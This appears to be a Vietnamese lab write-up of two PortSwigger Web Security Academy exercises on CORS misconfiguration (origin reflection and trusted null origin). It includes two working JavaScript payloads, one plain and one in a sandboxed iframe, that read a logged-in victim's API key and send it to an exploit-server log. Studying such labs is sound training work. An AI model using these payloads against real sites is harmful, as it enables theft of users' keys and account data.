


## [Lab 1: CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)


> - **Mô tả lab:** Lỗi cấu hình CORS rằng nó tin cậy tất cả các nguồn.
>
> - **Mục tiêu:** tạo JavaScript sử dụng CORS để truy xuất khóa API của `administrator`.

login `wiener:peter`, 


quan sát Response, truy xuất khóa API gọi đến `/accountDetails`




thêm header `Origin` xem có truy cập được vào các nguồn khác không



Giờ ta sẽ tạo JavaScript sử dụng CORS để truy xuất khóa API.

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET', 'https://0ac4006e03fd1f3e85f4366500ac00ec.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener(){
        location = 'https://exploit-0af0006003161fe7855b35ff01d80027.exploit-server.net/log?key=' + this.responseText;
    }
</script>
```


Store and Deliver to victim, ta sẽ nhận được Response trả về API key,


Lấy API key submit và solve lab


> **Test bằng Active Scan**


## [Lab 2: CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)


> - **Mô tả lab:** Lỗi cấu hình CORS không an toàn tin cậy nguồn `null`
>
> - **Mục tiêu:** tạo JavaScript sử dụng CORS, tải lên exploit server để trích xuất dữ liệu khóa API của `administrator` và submit key.

Đây là trang web của chúng ta, và là một trang web bán hàng


Đăng nhập với tài khoản cho trước `wiener:peter`, ta thấy thông tin có API key


Quan sát Response ta thấy có đoạn script truy cập đến `/accountDetails` để lấy API key.
 


Quan sát Request, ta thấy có `Access-Control-Allow-Credentials: true`


Test Origin

- Origin bất kỳ thì không thấy cho phép


- chỉ cho phép `null` --> có thể được hiểu là yêu cầu đến từ một nguồn không xác định hoặc không được xác định

Sau khi tìm hiểu, ta thấy giá trị này có thể được sử dụng trong một số trường hợp như thẻ iframe với thuộc tính sandbox.

Ví dụ, nếu bạn muốn nhúng một trang web khác vào trang web hiện tại bằng thẻ iframe, bạn có thể sử dụng thuộc tính sandbox để giới hạn các quyền truy cập của trang web được nhúng vào. Ví dụ, bạn có thể sử dụng thuộc tính sandbox để giới hạn quyền truy cập của trang web được nhúng vào chỉ cho phép các yêu cầu từ cùng một nguồn gốc (same-origin requests) hoặc giới hạn các quyền truy cập khác


Tạo thẻ iframe với thuộc tính sandbox chứa đoạn JavaScript

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0af10061038a450180ad853a00c000fb.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0ada003f03f745e48094845801a40009.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```


Store và gửi cho victim, đợi admin truy cập ta sẽ có log được ghi vào `Access log`


decode để thấy kết quả


submit và solve lab


> **Test bằng Active Scan**


